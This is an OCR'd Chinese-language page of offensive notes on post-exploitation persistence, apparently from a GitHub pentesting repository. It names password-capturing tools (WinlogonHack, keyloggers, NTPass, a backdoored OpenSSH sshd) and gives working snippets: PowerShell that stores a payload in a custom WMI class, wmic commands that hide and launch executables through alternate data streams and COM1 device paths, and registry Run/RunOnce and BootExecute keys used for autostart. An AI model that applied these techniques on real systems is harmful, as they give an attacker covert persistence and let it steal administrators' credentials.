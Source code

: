 
## 权限维持 

### 系统后门 
#### Windows 
##### 1. 密码记录工具 
WinlogonHack 
WinlogonHack 是一款用来劫取远程3389登录密码的工具，在 WinlogonHack 之前有 一个 Gina 木马主要用来截取 Windows 2000下的密码，WinlogonHack 主要用于截 取 Windows XP 以及 Windows 2003 Server。
键盘记录器 
安装键盘记录的目地不光是记录本机密码，是记录管理员一切的密码，比如说信箱，WEB 网页密码等等，这样也可以得到管理员的很多信息。
NTPass 
获取管理员口令,一般用 gina 方式来,但有些机器上安装了 pcanywhere 等软件，会导致远程登录的时候出现故障，本软件可实现无障碍截取口令。
Linux 下 openssh 后门 
重新编译运行的sshd服务，用于记录用户的登陆密码。
##### 2. 常用的存储Payload位置 
**WMI** :
存储：
```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('Command' , $Payload)
$StaticClass.Put() 
```
读取:
```
$Payload=([WmiClass] 'Win32_Command').Properties['Command'].Value
```

**包含数字签名的PE文件**
利用文件hash的算法缺陷，向PE文件中隐藏Payload，同时不影响该PE文件的数字签名 
**特殊ADS** 
…
```
type putty.exe > ...:putty.exe
wmic process call create c:\test\ads\...:putty.exe
```
特殊COM文件
```
type putty.exe > \\.\C:\test\ads\COM1:putty.exe
wmic process call create \\.\C:\test\ads\COM1:putty.exe
```
磁盘根目录
```
type putty.exe >C:\:putty.exe 
wmic process call create C:\:putty.exe
```
##### 3. Run/RunOnce Keys  
用户级 
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
管理员 
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```
##### 4. BootExecute Key 
由于smss.exe在Windows子系统加载之前启动，因此会调用配置子系统来加载当前的配置单元，具体注册表键值为：
```
HKLM\SYSTEM\CurrentControlSet\Control\hivelist
```